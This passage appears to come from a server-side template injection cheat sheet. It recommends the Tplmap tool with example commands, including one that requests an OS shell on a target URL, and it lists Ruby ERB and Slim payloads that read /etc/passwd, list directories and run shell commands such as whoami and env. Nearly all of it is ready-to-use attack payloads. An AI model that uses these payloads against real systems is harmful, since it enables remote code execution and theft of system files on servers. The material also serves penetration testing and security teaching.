 [](#tools)

Tools

Recommended tool: [Tplmap](https://github.com/epinna/tplmap) e.g:

    python2.7 ./tplmap.py -u 'http://www.target.com/page?name=John*' --os-shell
    python2.7 ./tplmap.py -u "http://192.168.56.101:3000/ti?user=*&comment=supercomment&link"
    python2.7 ./tplmap.py -u "http://192.168.56.101:3000/ti?user=InjectHere*&comment=A&link" --level 5 -e jade

[](#methodology)

Methodology

[![SSTI cheatsheet workflow](https://github.com/swisskyrepo/PayloadsAllTheThings/raw/master/Server%20Side%20Template%20Injection/Images/serverside.png?raw=true)](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Images/serverside.png?raw=true)

[](#ruby)

Ruby

[](#ruby---basic-injections)

Ruby - Basic injections

ERB:

    <%= 7 * 7 %>

Slim:

    #{ 7 * 7 }

[](#ruby---retrieve-etcpasswd)

Ruby - Retrieve /etc/passwd

    <%= File.open('/etc/passwd').read %>

[](#ruby---list-files-and-directories)

Ruby - List files and directories

    <%= Dir.entries('/') %>

[](#ruby---code-execution)

Ruby - Code execution

Execute code using SSTI for ERB engine.

    <%= system('cat /etc/passwd') %>
    <%= `ls /` %>
    <%= IO.popen('ls /').readlines()  %>
    <% require 'open3' %><% @a,@b,@c,@d=Open3.popen3('whoami') %><%= @b.readline()%>
    <% require 'open4' %><% @a,@b,@c,@d=Open4.popen4('whoami') %><%= @c.readline()%>

Execute code using SSTI for Slim engine.

    #{ %x|env| }
